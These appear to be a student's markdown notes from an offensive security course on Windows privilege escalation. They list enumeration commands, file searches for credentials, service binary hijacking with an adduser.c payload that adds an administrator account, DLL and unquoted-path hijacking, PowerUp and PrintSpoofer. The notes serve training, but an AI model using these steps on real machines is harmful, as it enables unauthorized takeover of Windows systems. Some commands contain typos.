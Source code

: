 ## Section 1 Enumerating Windows
### Section 16.1.2 Situational Awareness
- Check all installed applications with
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\
CurrentVersion\Uninstall\*" | select displayname
```
- OR 
```
Get-ItemProperty
"HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
- To display who you are
```
whoami
```
- To display the groups you belong to
```
whoami /groups
```
- Get information on the local user in powershell
```
Get-LocalUser
```
- Get information on local groups in powershell
```
Get-LocalGroup
```
- Get information on a specific group in powershell
```
Get-LocalGroupMember <GROUP_NAME>
```
- Gather information on the system with
```
systeminfo
```
- To list all network interfaces
```
ipconfig /all
```
- To display the routing table
```
route print
```
- To list all active network connections disabling name resolution and see the processID
```
netstat -ano
```
- Identify running processes with
```
Get-Process
```
### 16.1.3 Hidden In Plain View
- Get XAMPP information in powershell
```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
- Search for documents under a user in powershell
```
Get-ChildItem -Path C:\Users\<USERNAME> -Include *.txt,*.pdf,*.xls,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```
- Run a command as an elevated user
```
runas /user:<USERNAME> cmed
```
### 16.1.4 Information Goldmine Powershell
- Get powershell history with 
```
Get-History
```
- Logs for powershell if turned on can also be found in the event viewer through 
```
Application & Service Logs -> Microsoft -> Windows -> Powershell
```
### 16.1.5 Automated Enumeration
- Download from a URI in powershell with
```
iwr -uri <URL> -Outfile <FILE_NAME>
```
- Automated recon can also use sealtbelt.exe
	- Found in /var/www/windows
	- used with the -group=all option
```
seatbelt.exe -group=all
```

## Section 2 Leveraging Windows Services
### 16.2.1 Service Binary Hijacking
- Get running services with
```
Get-CimInstance -ClassName win32_service | select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
- ICACLS permissions
	- F=Full Access
	- M=Modify Access
	- RX=Read and Execute Access
	- R=Read-Only Access
	- W=Write-Only Access
- Check permissions with ICACLS
```
icacls <PATH_TO_BINARY> (ex. C:\xampp\apache\bin\httpd.exe)
```
- Adduser.c file
- Compile it with x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
# Include <stdlib.h>
int main() {
int I;
I = system ("net user <USERNAME> <PASSWORD> /add");
I = system ("net localgroup administrators dave2 /add");
return 0;
}
```
- To stop a service use
```
net stop <SERVICE_NAME>
```
- To check the startmode for a service like MySQL use
```
Get-CimInstance -ClassName win32_sercice | select Name,StartMode | Where-Object {$_.Name -like 'mysql'}
```
- To be able to reboot a computer you need the SeShutDownPrivilege assigned and you check this with 
```
whoami /priv
```
- Reboot a windows machine from the cmdline with 
```
shutdown /r /t 0
```
- Download and execute powerup.ps1 then run
```
Get-ModifiableServiceFile
```
- Restart a service from powershell with
```
Restart-Service <SERVICE_NAME>
```
- See myDLL.cpp in the /offsec folder for an example of a created dll
	- Compile the dll with 
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
### 16.2.3 Unquoted Service Paths 
- find unquoted service paths with 
```
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
## Section 3 Abusing Other Windows Components
- In unquoted service paths you have to use the name of the folder as the exe
	- For example if the path is C:\Enterprise Software\Monitoring Solution\Surveillance Apps and the writable directory is Monitoring Solution the name of the exe needs to be Surveillance.exe
		- This is because that is the next part of the path to the executable
### 16.3.1 Scheduled Tasks
- To see scheduled tasks in windows use 
```
schtasks /query /fo LIST /v
```
### 16.3.2 Using Exploits
- Non-privileged users with assigned privileges such as SeImpersonateProvilege can potentially abuse these privileges to perform privilege escalation attacks 
- This offers the possibility to leverage a token with another security context meaning a user with this privilege can perform operations in the context of another user account under the right circumstances
- By default windows assigns this privilege to members of the following groups 
	- Local Administrators
	- LOCAL SERVICE
	- NETWORK SERVICE
	- SERVIC
- If the usser has SeImpersonatePrivilege enabled you can use printspoofer by itm4n
	- This implements a variation of the printer bug to coerce NT AUTHORITY|SYSTEM into connecting into a controlled named pipe and gives you an interactive shell as NT AUTHORITY|SYSTEM
## Exercises To-Do

- [ ] 2.1.1 (page 20)